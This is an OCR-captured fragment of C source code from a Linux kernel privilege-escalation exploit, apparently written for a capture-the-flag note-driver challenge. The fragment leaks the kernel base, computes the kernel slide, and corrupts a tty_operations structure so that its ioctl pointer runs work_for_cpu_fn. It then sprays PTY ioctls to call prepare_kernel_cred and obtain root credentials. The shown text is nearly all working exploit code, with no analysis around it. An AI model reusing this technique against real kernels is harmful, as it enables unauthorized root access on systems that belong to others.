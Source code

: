   if (!kernel_base) `{`

    printf(“[-] Failed to leak kernel base\n”);

    exit(EXIT_FAILURE);

  `}`

  printf(“[+] kernel _text: %#lx\n”, kernel_base);

  printf(“[+] … or in other words, kernel slide: %#lx\n”, kernel_slide);

​

  uint64_t prepare_kernel_cred = v_prepare_kernel_cred + kernel_slide;

  uint64_t prepare_creds = v_prepare_creds + kernel_slide;

  uint64_t commit_creds = v_commit_creds + kernel_slide;

​

  add_note(MAX_CATCHERS, 16, name);

  edit_note(MAX_CATCHERS, sizeof(struct tty_operations), name);

  memset(buffer, 0x41, sizeof(buffer));

  ((struct tty_operations*)buffer)-&gt;ioctl = v_work_for_cpu_fn + kernel_slide;

  write(fd, buffer, MAX_CATCHERS);

​

  gift();

  read(fd, buffer, victim_idx);

  uint64_t old_value_at_48 = *(uint64_t*)(buffer + 48);

  *(uint64_t*)(buffer + 24) = note_in_kernel[MAX_CATCHERS].mem;

  *(uint64_t*)(buffer + 32) = prepare_kernel_cred;

  *(uint64_t*)(buffer + 40) = 0;

  write(fd, buffer, victim_idx);

​

  // Boom

  for (int i = 0; i &lt; MAX_PTY_SPRAY; i++) `{`

    ioctl(pty_masters[i], 233, 233);

  `}`

​

  read(fd, buffer, victim_idx);

  uint64_t new_value_at_48 = *(uint64_t*)(buffer + 48);

  printf(“[+] prepare_creds() = %#lx\n”, new_value_at_48);

